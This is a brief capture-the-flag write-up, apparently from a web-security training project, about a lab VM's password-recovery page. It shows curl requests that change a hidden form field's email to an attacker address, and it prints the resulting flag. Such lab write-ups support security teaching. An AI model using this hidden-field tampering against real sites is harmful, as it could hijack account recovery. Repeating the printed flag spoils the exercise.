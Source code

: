 # http://192.168.99.100/?page=recover

looking at the page source we notice the `<form>` element

```html
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```

what if we try to change the value of the `mail` ?

```sh
e1z2r10p4% 
e1z2r10p4% curl -s 'http://192.168.99.100/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/?page=recover' --data 'mail=attacker%40email.com&Submit=Submit' -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>
---
> <center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
e1z2r10p4% 
```

so with the first command we post original form values, and we get the `WrongAnswer.gif`
if we change the value of the `mail` field to something else, the page gives us the flag

##### flag `1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0`
nice
